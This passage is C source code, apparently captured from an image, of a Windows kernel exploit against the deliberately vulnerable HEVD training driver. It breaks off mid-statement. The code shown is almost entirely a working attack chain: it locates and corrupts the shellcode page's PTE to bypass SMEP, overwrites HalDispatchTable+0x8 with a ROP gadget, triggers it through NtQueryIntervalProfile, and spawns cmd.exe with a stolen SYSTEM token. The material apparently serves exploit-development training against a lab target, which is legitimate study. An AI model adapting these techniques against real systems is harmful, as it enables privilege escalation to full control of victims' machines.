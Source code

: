 ```c
	// Bitwise operations to locate PTE of shellcode page
	u64 shellcodePte = (u64)shellcode >> 9;
	shellcodePte = shellcodePte & 0x7FFFFFFFF8;
	shellcodePte = shellcodePte + pteBase;

	printf("[+] Shellcode's PTE is located at: 0x%llx\n", shellcodePte);


	// =========================
	// == 7. Leaking shellcode's PTE control bits
	// =========================

	u64 ptecontrolBits = ReadQWORD(hHEVD, shellcodePte);
	printf("[+] PTE control bits for shellcode page: 0x%llx\n", ptecontrolBits);

	// =========================
	// == 8. Modifying shellcode's PTE entry to bypass SMEP
	// =========================

	u64 taintedPte = ptecontrolBits; // Clear U/S bit (Kernel Mode)
	
	taintedPte &= ~(1ULL << 2);  // Clear U/S bit (Kernel Mode)
	//taintedPte &= ~(1ULL << 63); // Clear XD bit (Executable) Apparently not needed

	printf("[+] Corrupting PTE of shellcode to make U/S bit kernel mode...\n");
	WriteQWORD(hHEVD, &taintedPte, shellcodePte);

	// =========================
	// == 9. Save the nt!HalDispatchTable+0x8 so we can restore later
	// =========================

	u64 legitimateHal = ReadQWORD(hHEVD, haldispatchTable);

	// =========================
	// == 10. Overwrite HalDispatchTable+0x8 with a ROP gadget
	// =========================

	WriteQWORD(hHEVD, &JMP_RBX, haldispatchTable);

	// =========================
	// == 11. Trigger HalDispatchTable+0x8 /w shellcode in rbx
	// =========================

	NtQueryIntervalProfile(0x1234, shellcode);

	// =========================
	// == 12. Restore the HalDispatchTable and PTE ==
	// =========================

	WriteQWORD(hHEVD, &legitimateHal,  haldispatchTable);
	WriteQWORD(hHEVD, &ptecontrolBits, shellcodePte);
	//WriteBytes(hHEVD, &originalPml4Shellcode_Entry, pml4Shellcode_VirtualAddress);

	// =========================
	// == 13. Open a cmd.exe with the new SYSTEM token
	// =========================
	STARTUPINFOW        si = { .cb = sizeof(STARTUPINFOW) };
	PROCESS_INFORMATION pi = { 0 };

	if (CreateProcessW(L"C:\\Windows\\System32\\cmd.exe",
		NULL, NULL, NULL, FALSE, 0, NULL, NULL,
		&si, &pi))
	{
```
